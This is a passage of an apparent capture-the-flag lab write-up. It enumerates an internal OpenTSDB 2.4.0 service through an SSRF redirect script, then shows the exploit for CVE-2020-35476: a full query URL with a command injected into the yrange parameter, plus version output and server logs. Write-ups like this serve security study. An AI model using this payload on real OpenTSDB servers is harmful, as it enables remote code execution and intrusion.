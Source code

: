 Used the “unhide” feature from burpsuite

![Untitled]({{page.screenshots}}Untitled%208.png)

## OpenTSDB 2.4.0 Remote Code Execution - CVE-2020-35476

Enumerated internal port 4242:

```bash
$ sudo python3 redirect.py 10099 http://10.10.11.137:4242/
```

![OpenTSDB]({{page.screenshots}}Untitled%209.png)

OpenTSDB

Enumerated OpenTSDB version:

[/api/version](http://opentsdb.net/docs/build/html/api_http/version.html)

```bash
$ sudo python2 redirect.py --port 10099 http://10.10.11.137:4242/api/version
```

```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

### Known vulnerability for OpenTSDB 2.4.0:

[OpenTSDB - A Distributed, Scalable Monitoring System](http://opentsdb.net/)

[Arbitrary Code Execution in net.opentsdb:opentsdb | CVE-2020-35476 | Snyk](https://security.snyk.io/vuln/SNYK-JAVA-NETOPENTSDB-1041751)

Exploited the SSRF to trigger the RCE on port 4242:

![Untitled]({{page.screenshots}}Untitled%2010.png)

```bash
$ python2 redirect.py --port 10098 "http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
serving at port 10098
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
```

![No such name for 'metrics': 'sys.cpu.nice’]({{page.screenshots}}Untitled%2011.png)

No such name for 'metrics': 'sys.cpu.nice’

Enumerated available metrics trough API:

[OpenTSDB - Get all metrics via http](https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http)
